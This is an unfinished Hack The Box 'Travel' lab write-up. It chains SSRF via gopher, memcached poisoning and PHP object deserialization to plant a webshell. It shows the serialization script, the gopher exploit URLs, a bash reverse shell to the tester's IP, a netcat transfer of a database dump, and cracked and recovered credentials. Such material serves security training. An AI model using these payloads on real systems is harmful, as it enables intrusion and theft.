

# HTB - Travel

## HTB - Travel

### Overview


Short description to include any strange things to be dealt with

### Useful Skills and Tools

**Useful thing 1**

* Browse and edit LDAP with Apache Directory Studio \(need link\)

**Useful thing 2**

* SSH port forwarding to connect to remote ports that are closed \(need sudo to use ports under 1024\)

### Enumeration

#### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.189`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oG <name>` saves the output with a filename of `<name>`, `-n` stops DNS resolution of hosts, and `-v` allows me to see progress as it discovers things rather than waiting for the full report when it finishes.

```text
┌──(zweilos㉿kali)-[~]
└─$ nmap -n -p- -sC -sV --reason -v 10.10.10.189 -oG travel
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-13 17:17 EDT

Nmap scan report for 10.10.10.189
Host is up, received syn-ack (0.042s latency).

PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     syn-ack nginx 1.17.6
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.17.6
|_http-title: Travel.HTB
443/tcp open  ssl/http syn-ack nginx 1.17.6
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.17.6
|_http-title: Travel.HTB - SSL coming soon.
| ssl-cert: Subject: commonName=www.travel.htb/organizationName=Travel.HTB/countryName=UK
| Subject Alternative Name: DNS:www.travel.htb, DNS:blog.travel.htb, DNS:blog-dev.travel.htb
| Issuer: commonName=www.travel.htb/organizationName=Travel.HTB/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-23T19:24:29
| Not valid after:  2030-04-21T19:24:29
| MD5:   ef0a a4c1 fbad 1ac4 d160 58e3 beac 9698
|_SHA-1: 0170 7c30 db3e 2a93 cda7 7bbe 8a8b 7777 5bcd 0498
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```

The only ports that nmap showed as open on this machine were 22 \(SSH\), 80 \(HTTP\), and 443 \(HTTPS\). From the  nmap DNS NSE script scan I saw three virtual hosts for this IP: 

```text
Subject Alternative Name: DNS:www.travel.htb, DNS:blog.travel.htb, DNS:blog-dev.travel.htb
```

 I added all three to my `/etc/hosts` file so I could connect.


Connecting to `www.travel.htb` I found a "coming soon"  type site with a countdown.  On this site I found a contact information section with a potential a user email format.

```text
CONTACT INFORMATION
hello@travel.htb Park Ave, 987, London, United Kingdom.
```


Checking port 443 only led to an under construction site with no useful information.



The Firefox plugin `wappalyzer` told me the WordPress version was 5.4.  Since I now knew they were using WordPress I fired up `wpscan` to check the site for vulnerabilities using the syntax`wpscan --url http://blog.travel.htb/ --enumerate`.

```text
robots.txt found: http://blog.travel.htb/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
[+] XML-RPC seems to be enabled: http://blog.travel.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://blog.travel.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts
```


I discovered a WordPress login page at `http://blog.travel.htb/wp-login.php`  but there was nothing else useful from the scan.


I tried resetting my password since this version of WordPress was reportedly vunerable to information leakage through this, but it did not lead to anything useful.  


The page at `xmlrpc.php` likewise did not seem to be useful at this time.


Navigating to the virtual host `blog-dev` also seemed to be a dead-end, though I started another Dirbuster scan to see if anything useful that I could access could be found. 


There was an RSS feed using the Awesome RSS WordPress plugin on the `blog` site. In the source code of the page I noticed a section that said 'DEBUG\` which caught my eye.  I didn't know what to do with it, but it seemed interesting.


There was also a section that talked about using "Additional CSS" and importing it from the `dev` site.  This seemed like a potential way to get code to cross domains.


Another interesting find was the raw XML output that feeds the RSS page.  Perhaps there was an XML deserialization vulnerability in the site.

Since the `wpscan` results didn't seem to yield any useful information I checked out my Dirbuster scan of the `dev-blog` site and looked for interesting directories. 


I found a potentially accessible git repo while scanning `blog-dev` with dirbuster.  

_The dirbuster scan also shows that some security has been put in place against automated scanners. I could see the repeated chain of /./ dirs that told me the scanner was stuck.  After telling it to ignore those directories it found the `git` directory._

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ python3 ~/.local/bin/git-dumper/git-dumper.py http://blog-dev.travel.htb/ gitdump
```

I made a gitdump folder to dump the contents of the git repo into and ran `git-dumper` \(from [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)\) to clone the repository.

```text
┌──(zweilos㉿kali)-[~/htb/travel/gitdump]
└─$ ls -la          
total 24
drwxr-xr-x 3 zweilos zweilos 4096 Sep 18 20:21 .
drwxr-xr-x 4 zweilos zweilos 4096 Sep 18 20:17 ..
drwxr-xr-x 7 zweilos zweilos 4096 Sep 18 20:21 .git
-rwxr-xr-x 1 zweilos zweilos  540 Sep 18 20:21 README.md
-rwxr-xr-x 1 zweilos zweilos 2970 Sep 18 20:21 rss_template.php
-rwxr-xr-x 1 zweilos zweilos 1387 Sep 18 20:21 template.php

┌──(zweilos㉿kali)-[~/htb/travel/gitdump]
└─$ ls -la .git
total 48
drwxr-xr-x 7 zweilos zweilos 4096 Sep 18 20:21 .
drwxr-xr-x 3 zweilos zweilos 4096 Sep 18 20:21 ..
-rw-r--r-- 1 zweilos zweilos   13 Sep 18 20:21 COMMIT_EDITMSG
-rw-r--r-- 1 zweilos zweilos   92 Sep 18 20:21 config
-rw-r--r-- 1 zweilos zweilos   73 Sep 18 20:21 description
-rw-r--r-- 1 zweilos zweilos   23 Sep 18 20:21 HEAD
drwxr-xr-x 2 zweilos zweilos 4096 Sep 18 20:21 hooks
-rw-r--r-- 1 zweilos zweilos  297 Sep 18 20:21 index
drwxr-xr-x 2 zweilos zweilos 4096 Sep 18 20:21 info
drwxr-xr-x 3 zweilos zweilos 4096 Sep 18 20:21 logs
drwxr-xr-x 7 zweilos zweilos 4096 Sep 18 20:21 objects
drwxr-xr-x 3 zweilos zweilos 4096 Sep 18 20:21 ref
```

The repository appeared to be the source code for the Awesome RSS application I saw earlier. The `README.md` file explained the status of the project.

```text
# Rss Template Extension

Allows rss-feeds to be shown on a custom wordpress page.

## Setup

* `git clone https://github.com/WordPress/WordPress.git`
* copy rss_template.php & template.php to `wp-content/themes/twentytwenty` 
* create logs directory in `wp-content/themes/twentytwenty` 
* create page in backend and choose rss_template.php as theme

## Changelog

- temporarily disabled cache compression
- added additional security checks 
- added caching
- added rss template

## ToDo

- finish logging implementation
```


The php has a `get_feed()` function, which takes in a URL and then gets its contents using `url_get_contents` . It then creates a SimplePie object and sets its cache to a local memcache instance. SimplePie is a WordPress plugin that allows for RSS feeds in php-based sites. . Feeds are requested from the `custom_feed_url` parameter if it exists, otherwise it defaults to `http://www.travel.htb/newsfeed/customfeed.xml` which I found earlier through dirbuster.


> In the file template.php we find the url\_get\_contents function defined here. It uses the safe method to check if the URL is valid or not. If valid, curl is used to request the resource and return its contents. The filter blocks the file:// URI scheme, however we can still use various other protocols such as gopher . We also see it blocking access to localhost and 127.0.0.1 . However, this can be easily bypassed by converting the IP address to its decimal notation. This will let us perform Server Side Request Forgery \(SSRF\) attacks and communicate with internally hosted resources. Also, The init\(\) method uses the file\_put\_contents\(\) function to write data to a log file. This is method is called from the **construct and** wakeup functions. These are known as magic methods in PHP, which are invoke when certain actions are taken. For example, the \_\_wakeup method is called when an object of that class is deserialized. Let's keep this in mind and move on.
>
> Memcached is used to cache objects in memory, so that they can be retrieved quickly, without making multiple requests. For example, data retrieved from a DBMS can be cached to avoid issuing SQL queries each time. It stores data in the form of key-value pairs. The URL above states that the keys should be prefixed with xct\_ .

the rss\_template also has code that includes a debug.php if the parameter debug is passed to it with ?debug

> Let's look at the debugging output to see if this is true. Browse to [http://blog.travel.htb/awesome-rss](http://blog.travel.htb/awesome-rss) to cache the feed and then go to [http://blog.travel.htb/awesome-rss/?debug](http://blog.travel.htb/awesome-rss/?debug) to enable the debug flag. Inspection of the page source reveals the following:

```markup
<!--
DEBUG
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
| xct_4e5612ba07(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) |
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
-->
```

Using the debug parameter added a bit of extra code to the middle of the page, but there was nothing that seemed useful.

Picture

The code allows for the import of a custom URL through the `custom_feed_url` attribute, so I hosted a web server using python SimpleHTTPServer: [http://blog.travel.htb/awesome-rss/?custom\_feed\_url=http://10.10.15.53:8090/test.html](http://blog.travel.htb/awesome-rss/?custom_feed_url=http://10.10.15.53:8090/test.html)

Picture

Unfortunately the test did not actually load anything on the page, though I noticed that it did reach back to my server and pull the contents of the directory, including pulling some png files automatically \(and interestingly including a .netxml file I had in the directory from playing around with airodump-ng earlier that day\)

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ python -m SimpleHTTPServer 8090
Serving HTTP on 0.0.0.0 port 8090 ...
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET / HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET / HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET /10-awesome-rss.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET /11-feed-xml.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:48] "GET /8-xmlrpc.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 21:04:23] "GET /test.html HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 21:04:23] "GET /test.html HTTP/1.1" 200 -
```

This confirmed the SSRF vulnerability.

> Next, we need to find a way to poison the memcached keys. This can be done with the help from the gopher protocol. Gopher is one of the oldest protocols used to access resources over a network. The modern HTTP protocol is an evolved form of Gopher. The gopher protocol is supported by various browsers as well as cURL. Unlike HTTP, Gopher can be used to craft requests and communicate with various kinds of services. `gopher://127.0.0.1:80/_GET%20/%20HTTP/1.1%0AHost:test.com%0A%0A` For example, the request above will be interpreted by the server as: GET / HTTP/1.1 Host: test.com Where `%20` represents spaces and `%0A` stands for new lines. This can also be used to communicate with other services using plaintext protocols such as memcached.
>
> This creates a key named SpyD3r in memcached with the value test . Request the following URL in the browser to test this out, where 2130706433 is the decimal notation for 127.0.0.1 . `http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://2130706433:11211/_%0d%0aset%20test%204%200%204%0d%0atest%0d%0a`

Using the ?debug=test flag after requesting the above URL returns the following:

```markup
<!--
DEBUG
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
| TEST | test |
| xct_4e5612ba07(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) |
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
-->
```

My test key was successfully cached! Now I had to see if I could use this to exploit the site. Since memcached stores serialized PHP objects it can be exploited by injecting a malicious object and triggering it through `unserialize`. The code from the git dump didnt seem to have any methods for deserializing, so I looked on GitHub at the SimplePie plugin to see if the code for that held any clues.

The SimplePie Memcached class can be found on GitHub. Firstly, we see the following \_\_construct method from the SimplePie\_Cache\_Memcached class, which generates the key name.

[https://github.com/WordPress/WordPress/blob/master/wp-includes/SimplePie/Cache/Memcached.php](https://github.com/WordPress/WordPress/blob/master/wp-includes/SimplePie/Cache/Memcached.php)

Insert code picture

> The specified prefix is prepended to the MD5 hash of the string formed by concatenating `$name` and `$type` . These values are passed as arguments to the methods. Looking at the `Cache.php` source code, I found the get\_handler\(\) function which explained what was going on.

Also have to check in `SimplePie_Misc.php` and `SimplePie_Cache.php` since they are referenced in the code here. `Cache.php` has `get_handler` function which returns an object based on the type of handler requested. one of the handlers is `SimplePie_Cache_Memcached`. The `$name` variable is set to `$filename` and the `$type` variable is set to `$extension`.

Get more pictures of the code for this: those two above, and [https://github.com/WordPress/WordPress/blob/master/wp-includes/class-simplepie.php](https://github.com/WordPress/WordPress/blob/master/wp-includes/class-simplepie.php)

> Looking for usage of this method, we come across class-simplepie.php. $cache = $this-&gt;registry-&gt;call\('Cache', 'get\_handler', array\($this- cache\_location, call\_user\_func\($this-&gt;cache\_name\_function, $url\), 'spc'\)\); This script calls the get\_handler method with the parameters cache\_location \($location\), cache\_name\_function\($url\) \($filename\) and spc \($extension\). On searching for cache\_name\_function in the same script, we see that it is set to MD5.
>
> This means that $filename is set to md5\($url\) , while $extension is set to spc . This provides us with sufficient information to calculate the key name: `keyname = md5(md5(url) + ":" + "spc")` Let's verify this using the original URL used by the server.

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ echo -n 'http://www.travel.htb/newsfeed/customfeed.xml' | md5sum
3903a76d1e6fef0d76e973a0561cbfc0  -

┌──(zweilos㉿kali)-[~/htb/travel]
└─$ echo -n '3903a76d1e6fef0d76e973a0561cbfc0:spc' | md5sum  
4e5612ba079c530a6b1f148c0b352241  -
```

This matches the output I saw in the debug code given by the system earlier! vuln confirmed

> In the SimplePie\_Cache\_Memcached class, we also see a load\(\) method that calls unserialize\(\).
>
> We also need to find a class to craft a malicious object for. This is where the TemplateHelper class comes in. We can create a malicious object of this class and write a PHP file to the logs folder when it's unserialized. Use the following script to generate such an object. Note that the $file and $data variable should be made public as private variables can't be accessed directly while deserializing.

```text
<?php
class TemplateHelper
{
public $file;
public $data;
public function __construct(string $file, string $data)
{
$this->init($file, $data);
}
private function init(string $file, string $data)
{
$this->file = $file;
$this->data = $data;
file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
}
}
$back_door = new TemplateHelper("back_door.php", "<?php system(\$_REQUEST[test]); ?>");
echo serialize($back_door);
?>
```

> The script above serializes an object of the class TemplateHelper , which writes a webshell to shell.php on deserialization.

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ php -f test.php
PHP Warning:  file_put_contents(/home/zweilos/htb/travel/logs/back_door.php): failed to open stream: No such file or directory in /home/zweilos/htb/travel/test.php on line 14
O:14:"TemplateHelper":2:{s:4:"file";s:13:"back_door.php";s:4:"data";s:28:"<?php system($_GET[test]);?>";}
```

> Next, we need to set this payload as a value for the key xct\_4e5612ba079c530a6b1f148c0b352241 , so that it is deserialized when the server next fetches feeds.

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ php -f test.php                                                                                 1 ⨯
PHP Warning:  file_put_contents(/home/zweilos/htb/travel/logs/back_door.php): failed to open stream: No such file or directory in /home/zweilos/htb/travel/test.php on line 14
O:14:"TemplateHelper":2:{s:4:"file";s:13:"back_door.php";s:4:"data";s:34:"<?php system($_REQUEST['test']);?>";}                                                                                                        
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ Gopherus/gopherus.py --exploit phpmemcache

  ________              .__                                                                             
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                              
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                              
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                               
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                              
        \/       |__|        \/     \/                 \/                                               

                author: $_SpyD3r_$                                                                      

This is usable when you know Class and Variable name used by user

Give serialization payload
example: O:5:"Hello":0:{}   : O:14:"TemplateHelper":2:{s:4:"file";s:13:"test.php";s:4:"data";s:34:"<?php system($_REQUEST['test']);?>";}

Your gopher link is ready to do SSRF :                                                                   
gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%20111%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:13:%22test.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27test%27%5D%29%3B%3F%3E%22%3B%7D%0d%0a

After everything done, you can delete memcached item by using this payload:                             

gopher://127.0.0.1:11211/_%0d%0adelete%20SpyD3r%0d%0a

-----------Made-by-SpyD3r-----------
```

After that it took awhile to figure out where my `back_door.php` was located. I found a hint in the README.md file I had found in the git repository earlier: `* create logs directory in`wp-content/themes/twentytwenty\`\` I used dirbuster to find the exact directory, adding back\_door to my wordlist

final url - the length of the contents is important! make sure it is correct \(111 in my case\)

```text
http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://0x7f000001:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20111%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:13:%22back_door.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27test%27%5D%29%3B%3F%3E%22%3B%7D%0d%0a
```

HAVE TO decimal/hex encode 127.0.0.1~~~!!! 2130706433 or 0x7f000001 and add xct\_ a shell can be obtained by using parameter:

```text
test=bash -c "bash -i >& /dev/tcp/10.10.15.53/8099 0>&1"
```

`xct_4e5612ba079c530a6b1f148c0b352241`

### Initial Foothold - `www-data`

```text
www-data@blog:/var/www/html$ ls -la
ls -la
total 232
drwxrwxrwx  5 www-data www-data  4096 Apr 13 13:28 .
drwxr-xr-x  1 root     root      4096 Mar 31 18:10 ..
-rw-r--r--  1 www-data www-data   461 Apr 13 13:19 .htaccess
-rw-r--r--  1 root     root      6423 Apr 13 14:21 customfeed.xml
-rw-r--r--  1 www-data www-data   405 Feb  6  2020 index.php
-rw-r--r--  1 www-data www-data 19915 Feb 12  2020 license.txt
-rw-r--r--  1 www-data www-data  7278 Jan 10  2020 readme.html
-rw-r--r--  1 www-data www-data  6912 Feb  6  2020 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Mar 31 20:03 wp-admin
-rw-r--r--  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rw-r--r--  1 www-data www-data  2275 Feb  6  2020 wp-comments-post.php
-rw-r--r--  1 www-data www-data  2913 Feb  6  2020 wp-config-sample.php
-rw-rw-rw-  1 www-data www-data  3186 Apr 13 14:10 wp-config.php
drwxr-xr-x  5 www-data www-data  4096 Apr 23 19:10 wp-content
-rw-r--r--  1 www-data www-data  3940 Feb  6  2020 wp-cron.php
drwxr-xr-x 21 www-data www-data 12288 Mar 31 20:03 wp-includes
-rw-r--r--  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
-rw-r--r--  1 www-data www-data  3300 Feb  6  2020 wp-load.php
-rw-r--r--  1 www-data www-data 47874 Feb 10  2020 wp-login.php
-rw-r--r--  1 www-data www-data  8501 Feb  6  2020 wp-mail.php
-rw-r--r--  1 www-data www-data 19396 Feb 10  2020 wp-settings.php
-rw-r--r--  1 www-data www-data 31111 Feb  6  2020 wp-signup.php
-rw-r--r--  1 www-data www-data  4755 Feb  6  2020 wp-trackback.php
-rw-r--r--  1 www-data www-data  3133 Feb  6  2020 xmlrpc.php
```

Nothing of interest in the `/var/www/html` directory

```text
www-data@blog:/opt/wordpress$ ls -la
ls -la
total 1180
drwxr-xr-x 1 root root    4096 Apr 24 06:39 .
drwxr-xr-x 1 root root    4096 Apr 13 13:37 ..
-rw-r--r-- 1 root root 1190388 Apr 24 06:39 backup-13-04-2020.sql
www-data@blog:/opt/wordpress$ nc 10.10.15.53 9099 < backup-13-04-2020.sql
nc 10.10.15.53 9099 < backup-13-04-2020.sql
```

In the `/opt/wordpress` directory found and extracted a .sql file to my home machine; tried to open with `sqlitebrowser` but it told me it wasnt a valid database. I used the file command on it and it said it was a stnadard ASCII file so I opened it with `vim` and started browsing

picture

It was a sqldump output file rather than an actual database, but contained all of the recent queries to the database, found password hashes for an `admin` user and `lynik-admin` , loading in hash-identifier to check what type of hash then loaded to crack with hashcat

```text
INSERT INTO `wp_users` VALUES
(1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http
://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-
admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-
admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
```

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```

[https://scottlinux.com/2013/04/23/crack-wordpress-password-hashes-with-hashcat-how-to/](https://scottlinux.com/2013/04/23/crack-wordpress-password-hashes-with-hashcat-how-to/) tells me the correct hash type to use for hashcat is m=400

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ hashcat -O -D1,2 -a0 -m400 travel-hashes /usr/share/wordlists/rockyou.txt                     130 ⨯
hashcat (v6.1.1) starting...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.:1stepcloser   
Approaching final keyspace - workload adjusted.  

Session..........: hashcat
Status...........: Exhausted
Hash.Name........: phpass
Hash.Target......: travel-hashes
Time.Started.....: Sat Sep 19 14:31:18 2020 (6 mins, 22 secs)
Time.Estimated...: Sat Sep 19 14:37:40 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    39458 H/s (13.43ms) @ Accel:1024 Loops:1024 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests, 1/2 (50.00%) Salts
Progress.........: 28688770/28688770 (100.00%)
Rejected.........: 2120/28688770 (0.01%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:7168-8192
Candidates.#1....: $HEX[21494d41424954434821] -> $HEX[042a0337c2a156616d6f732103]

Started: Sat Sep 19 14:31:07 2020
Stopped: Sat Sep 19 14:37:41 2020
```

Unfortunately I was only able to crack one of the hashes. The password for `lynik-admin` was `1stepcloser` , which I then used to SSH into the machine.

### Road to User

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ ssh lynik-admin@10.10.10.189                                                                  255 ⨯
lynik-admin@10.10.10.189's password: 
Permission denied, please try again.
lynik-admin@10.10.10.189's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Sat 19 Sep 2020 03:12:57 PM UTC

  System load:                      0.0
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        201
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

lynik-admin@travel:~$ id && hostname
uid=1001(lynik-admin) gid=1001(lynik-admin) groups=1001(lynik-admin)
travel
lynik-admin@travel:~$
```

```text
lynik-admin@travel:~$ sudo -l
[sudo] password for lynik-admin: 
Sorry, user lynik-admin may not run sudo on travel.
```

I tried to see what `lynik-admin` could do with sudo, but apparently this user was not in the sudoers file

#### Further enumeration

#### Finding user creds

#### User.txt

```text
lynik-admin@travel:~$ ls
user.txt
lynik-admin@travel:~$ cat user.txt 
c568778f414d770c700de3a7ff867230
```

### Path to Power \(Gaining Administrator Access\)

#### Enumeration as User

```text
lynik-admin@travel:~$ ls -la
total 36
drwx------ 3 lynik-admin lynik-admin 4096 Apr 24 06:52 .
drwxr-xr-x 4 root        root        4096 Apr 23 17:31 ..
lrwxrwxrwx 1 lynik-admin lynik-admin    9 Apr 23 17:31 .bash_history -> /dev/null
-rw-r--r-- 1 lynik-admin lynik-admin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lynik-admin lynik-admin 3771 Feb 25  2020 .bashrc
drwx------ 2 lynik-admin lynik-admin 4096 Apr 23 19:34 .cache
-rw-r--r-- 1 lynik-admin lynik-admin   82 Apr 23 19:35 .ldaprc
-rw-r--r-- 1 lynik-admin lynik-admin  807 Feb 25  2020 .profile
-r--r--r-- 1 root        root          33 Sep 19 14:16 user.txt
-rw------- 1 lynik-admin lynik-admin  861 Apr 23 19:35 .viminfo
```

In `lynik-admin`'s home folder I found a `.ldaprc` file which looked interesting. According to the [http://manpages.ubuntu.com/manpages/cosmic/man5/ldap.conf.5.html](http://manpages.ubuntu.com/manpages/cosmic/man5/ldap.conf.5.html), this file is used to set configuration variables for connecting to LDAP.

> The server appears to be at 172.20.0.10

```text
ldap.travel.htb
BASE dc=travel,dc=htb
BINDDN cn=lynik-admin,dc=travel,dc=htb
```

> The default LDAP port 389 can to exposed to our machine using SSH. ssh -L 389:172.20.0.10:389 lynik-admin@10.10.10.189 This will let us access the server from localhost. Let's attempt to query the LDAP service.

`ldapsearch -x -h 127.0.0.1 -b "DC=travel,DC=htb" -D "CN=lynik-admin,DC=travel,DC=htb"` The -x option specifies simple anonymous authentication. The -b flag is used to specify the search base, while the -D flag specifies the bind DN. These values came from the .ldaprc file.

ssh port forward tunnel

> This file is used to store metadata and user interaction history with Vim, which is a text editor. It helps Vim remember details such as the cursor placement, deleted data as well as search patterns.
>
> \`\`\`
>
> ## Registers:
>
> ""1 LINE 0 BINDPW Theroadlesstraveled \|3,1,1,1,1,0,1587670528,"BINDPW Theroadlesstraveled"
>
> ## File marks:
>
> '0 3 0 ~/.ldaprc \|4,48,3,0,1587670530,"~/.ldaprc"

```text
> The file stores a line which subsequently deleted from the .ldaprc file. This line contain the
> bind password Theroadlesstraveled . Let's try using it to connect to LDAP.
```

lynik-admin@travel:~$ ldapsearch -x -w Theroadlesstraveled

## extended LDIF

## LDAPv3

## base  \(default\) with scope subtree

## filter: \(objectclass=\*\)

## requesting: ALL

## travel.htb

dn: dc=travel,dc=htb objectClass: top objectClass: dcObject objectClass: organization o: Travel.HTB dc: travel

## admin, travel.htb

dn: cn=admin,dc=travel,dc=htb objectClass: simpleSecurityObject objectClass: organizationalRole cn: admin description: LDAP administrator

## servers, travel.htb

dn: ou=servers,dc=travel,dc=htb description: Servers objectClass: organizationalUnit ou: servers

## lynik-admin, travel.htb

dn: cn=lynik-admin,dc=travel,dc=htb description: LDAP administrator objectClass: simpleSecurityObject objectClass: organizationalRole cn: lynik-admin userPassword:: e1NTSEF9MEpaelF3blZJNEZrcXRUa3pRWUxVY3ZkN1NwRjFRYkRjVFJta3c9PQ==

## workstations, travel.htb

dn: ou=workstations,dc=travel,dc=htb description: Workstations objectClass: organizationalUnit ou: workstations

## linux, servers, travel.htb

dn: ou=linux,ou=servers,dc=travel,dc=htb description: Linux Servers objectClass: organizationalUnit ou: linux

## windows, servers, travel.htb

dn: ou=windows,ou=servers,dc=travel,dc=htb description: Windows Servers objectClass: organizationalUnit ou: windows

## users, linux, servers, travel.htb

dn: ou=users,ou=linux,ou=servers,dc=travel,dc=htb description: Linux Users objectClass: organizationalUnit ou: users

## groups, linux, servers, travel.htb

dn: ou=groups,ou=linux,ou=servers,dc=travel,dc=htb description: Linux Groups objectClass: organizationalUnit ou: groups

## jane, users, linux, servers, travel.htb

